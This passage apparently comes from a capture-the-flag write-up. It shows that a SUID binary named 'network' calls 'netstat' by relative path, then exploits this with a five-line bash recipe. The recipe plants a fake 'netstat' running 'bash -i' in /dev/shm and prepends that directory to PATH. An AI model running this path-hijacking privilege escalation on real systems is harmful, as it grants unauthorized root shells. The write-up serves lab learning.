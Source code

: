 [<img src="images/ghidra.png"
  style="width: 800px;"/>](images/ghidra.png)

Looks like it is running `netstat`.

Well we can exploit this, by [Hijacking Relative Paths in SUID Programs](https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e)

```bash
cd /dev/shm
echo 'bash -i #' > netstat
chmod +x netstat
export PATH=/dev/shm/:$PATH
cd /home/shenron
./network
```

[<img src="images/privesc.png"
  style="width: 800px;"/>](images/privesc.png)
